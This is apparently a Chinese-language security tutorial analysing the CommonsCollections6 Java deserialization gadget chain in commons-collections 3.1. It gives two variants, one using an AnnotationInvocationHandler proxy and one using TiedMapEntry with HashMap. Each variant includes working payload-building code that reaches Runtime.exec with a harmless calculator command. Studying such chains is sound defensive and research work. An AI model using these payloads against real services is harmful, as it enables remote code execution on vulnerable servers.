

# CommonsCollections6分析

## 1.环境搭建

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
</dependency>
```

**版本限制:**`1.7.*<=jdk<=1.8.*`

## 2.调试分析

### 2.1 低版本jdk

CC6这条链子的Sink点与CC1是相同的，通过`InvokerTransformer`的反射调用，触发命令执行，代码如下：

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"})
});
```

然后找到一处调用`transform`方法的位置，这里使用的是`LazyMap#get()`与CC1不同,代码如下：

```java
public Object get(Object key) {
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```

判断装饰的map是否含有传入的key，如果有就返回该key对应的值。

在低版本的jdk中(例:jdk<=8u65),由于`AnnotationInvocationHandler#readObject()`中的代码还没有进行Fix，存在调用`xxx.get(...)`的调用方式，因为该类的实际功能就是动态代理的Handler类，类中存在`invoke`方法，可以实现一个回调。

```java
public Object invoke(Object proxy, Method method, Object[] args) {
	...
  // Handle annotation member accessors
  Object result = memberValues.get(member);
  ....
}
```

所以，通过`Proxy.newProxyInstance(ClassLoader loader,Class<?>[] interfaces,InvocationHandler handler)`可以创建一个代理类：

1. loader 一般都是用当前类的类加载器
2. interfaces 指定实现接口，该接口内声明的方法调用后都会触发回调
3. handler 回调函数，当执行interfaces接口中声明的方法时候。

整理一下思路：

readObject中存在调用Map接口内声明的方法`entryset`,那么当反序列化之后调用到`memberValues.entrySet()`就会触发回调方法`invoke`


在方法中存在` memberValues.get(member)`的调用方式，虽然参数不可控，但是根据CC1的分析，因为存在`ConstantTransformer`不影响执行命令，根据这个思路，构造如下exp：

```java
  ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
          new ConstantTransformer(Runtime.class),
          new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
          new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
          new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"})
  });

  HashMap<Object,Object> hashMap = new HashMap<>();
  hashMap.put("321","test");
  Map lazyMap = LazyMap.decorate(hashMap,chainedTransformer);


  Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
  //通过反射获得cls的构造函数
  Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
  //这里需要设置Accessible为true，否则序列化失败
  ctor.setAccessible(true);
  //通过newInstance()方法实例化对象
  InvocationHandler handler = (InvocationHandler)ctor.newInstance(Bean.class, lazyMap);
  Object o = Proxy.newProxyInstance(CC6.class.getClassLoader(), lazyMap.getClass().getInterfaces(), handler);

```

#### 2.1.1 调用图




### 2.2 通用

这条链子在大部分jdk与CC链中都是存在的，它的**Sink**点与之前是相同的，同样需要利用到`InvokerTransformer#transform`中的反射调用,之后的话还是需要通过`LazyMap#get()`调用，需要找到一处存在`xxxx.get(xxx)`调用的位置.

在代码中发现,`TiedMapEntry#getValue()`就存在如下调用：

```java
public Object getValue() {
    return map.get(key);
}
```

之后同样的在这类中，存在`hashCode()`等方法里，都存在`getValue()`的调用，学习过URLDNS链会知道，在HashMap的反序列化中就有`hashCode()`的调用。根据这个思路，就可以构造：

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"})
});

HashMap<Object,Object> hashMap = new HashMap<>();
hashMap.put("321","test");
Map lazyMap = LazyMap.decorate(hashMap,chainedTransformer);

TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"321");
HashMap<Object, Object> hash1 = new HashMap<>();
hash1.put(tiedMapEntry,"123");

Class tied = TiedMapEntry.class;
Field tiedKey = tied.getDeclaredField("key");
tiedKey.setAccessible(true);
tiedKey.set(tiedMapEntry,"aaaa");
//lazyMap.clear();
```

由于hashMap.put()操作也会调用`hashCode()`，之前有提到当`lazyMap#get(...)`调用后，判断map是否存在key，如果不存在就会put进去。

当反序列化的时候进行判断发现已经存在对应的键值对就不会调用`xx.transform(...)`方法，在这里的处理方式就是先设置相同的，然后通过反射进行修改，也可以通过`lazyMap.clear()`进行清除。

相对来说这个链子会比较简单，容易理解一些。

#### 2.2.1 调用图


